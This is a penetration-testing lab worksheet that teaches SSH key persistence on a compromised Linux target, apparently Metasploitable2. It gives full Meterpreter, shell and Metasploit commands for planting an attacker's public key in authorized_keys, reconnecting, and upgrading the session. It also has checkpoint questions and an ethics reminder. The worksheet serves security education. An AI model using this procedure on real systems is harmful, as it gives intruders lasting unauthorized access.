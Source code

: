 # 📝 Student Worksheet – SSH Persistence After Initial Foothold

## Objective  
In this lab, you will learn how to maintain access on a compromised Linux system by setting up **SSH key-based persistence** after gaining your first shell foothold (e.g., via Meterpreter).

**IMPORTANT** You must have a Meterpreter session to your target as a pre-requisite for this worksheet!

---

## Step 1 – Generate SSH Keys (on Kali)  
We first create an RSA key pair (public + private key) to authenticate later.

```bash
ssh-keygen -t rsa -b 2048 -f ./id_rsa -N ""
```

✅ **Checkpoint:**  
1. Which two files were generated? (e.g., `id_rsa`, `id_rsa.pub`)?
- Answer:
2. Which file should never be shared? (private key or public key?)
- Answer:

---

## Step 2 – Upload Public Key to Target  
From your Meterpreter session, upload the public key:

```bash
upload id_rsa.pub /tmp/id_rsa.pub
```

✅ **Checkpoint:**  
3. Where is the public key stored on the target?
- Answer:

---

## Step 3 – Configure Persistence on Target  
Open a shell inside Meterpreter:

```bash
shell
```

Now run these commands **one at a time**:

```bash
mkdir -p ~/.ssh
cat /tmp/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
rm /tmp/id_rsa.pub
exit
```

✅ **Checkpoint:**  
4. What does `chmod 600 ~/.ssh/authorized_keys` do?  
- Answer: 

---

## Step 4 – Connect Back with SSH  
On Kali, use the private key to connect:

```bash
ssh -i ./id_rsa -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa <username>@<target-ip>
```

- **Username:** Found by running `whoami` inside the foothold shell (e.g., `www-data`)  
- **Target IP:** Found on Metasploitable2 using:

```bash
ifconfig
```

✅ **Checkpoint:**  
5. What username did you gain access as? 
- Answer:  
6. What is the target IP?
- Answer:

**Note:** Type `yes` if prompted about host fingerprinting.  

---

## Step 5 – Persistence with Metasploit (Optional)  
You can also manage SSH persistence via Metasploit.

1. Start Metasploit:  
   ```bash
   msfconsole
   ```

2. Configure the module:  
   ```bash
   use auxiliary/scanner/ssh/ssh_login_pubkey
   set rhost <target-ip>
   set USERNAME www-data
   set KEY_PATH ./id_rsa
   set SSH_KEYFILE_ALGS +ssh-rsa,ssh-dss
   run
   ```

3. List sessions:  
   ```bash
   sessions -l
   ```

4. Upgrade shell session to Meterpreter:  
   ```bash
   sessions -u <session-id>
   ```

5. Interact with the new session:  
   ```bash
   sessions -i <new-session-id>
   ```

✅ **Checkpoint:**  
7. What session ID was upgraded?  
- Answer:
8. Why might upgrading to Meterpreter be useful?
- Answer:

---

## Reflection Questions
9. Why is SSH persistence more reliable than keeping only a Meterpreter shell?
- Answer:  
10. What security controls could prevent an attacker from using this technique?  
- Answer: 

---

⚠️ **Ethics Reminder:**  
This technique is for **educational purposes only**. Never attempt persistence on a system you do not own or have explicit permission to test.  
